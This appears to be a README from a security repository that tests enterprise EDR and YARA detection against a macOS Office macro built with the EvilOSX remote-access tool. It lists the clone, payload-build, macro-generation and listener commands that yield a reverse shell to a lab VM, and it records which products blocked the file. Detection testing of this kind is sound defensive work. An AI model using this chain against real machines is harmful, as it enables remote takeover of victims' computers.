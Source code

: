**Detections**
* Enterprise EDR Solution 1: Yes (Blocked)
* Enterprise EDR Solution 2: No
* Enterprise YARA Solution: No (Detected EvilOSX payload and some modules but not the word doc)

We use a python script to generate a malicious office macro from the EvilOSX framework. The following repos are used: https://github.com/Marten4n6/EvilOSX
https://github.com/cedowens/EvilOSX_MacroGenerator 

Here we are using EvilOSX which is a Remote Administrator tool (RAT) for Mac OS. We generate a payload using this framework and create a shell that will connect to our VM over port 1234.

`git clone https://github.com/Marten4n6/EvilOSX`

`cd EvilOSX`

`python start.py --builder`

The options defined within the builder are as follows.
![image](https://github.com/lawrence737/EDR-YARA-Testing/assets/82233556/ceb1e03c-5eb4-4aba-acfc-93c159de78d0)


The macro generator repo is used to get the payload into a macro we can use in Word.

`git clone https://github.com/cedowens/EvilOSX_MacroGenerator`

`cd EvilOSX_MacroGenerator`

`python3 EvilOSX-macrogenerator.py -p /Users/red/EvilOSX/data/builds/Launcher-2ef41c.py -e "b64"`

A text file is then generated as “macro.txt” and this can be used to populate the VBA code in Word. This is then saved as a .docm file.

![image](https://github.com/lawrence737/EDR-YARA-Testing/assets/82233556/e5bad9ad-1b42-4bc6-bea3-9c3705e5ae7c)
![image](https://github.com/lawrence737/EDR-YARA-Testing/assets/82233556/74a6b6df-b3ab-4ecc-86a5-5ed561e6257b)


On the VM, we start the listener.

`python start.py --cli --port 1234`

Finally, we open the file and enable macros when word asks us.

![image](https://github.com/lawrence737/EDR-YARA-Testing/assets/82233556/321d1394-ea4e-4daf-98ae-434aa4903b7c)

Enterprise EDR Solution 1 immediately kills Word, kills sh, and quarantines Word. Quarantine is lifted to fix the Word application. Note that the file itself is not quarantined.

Hashes:

7c15014b76c207bad85b5434926f46d051dc774d31eb71a322069de48b70fa77  evilmacro.docm

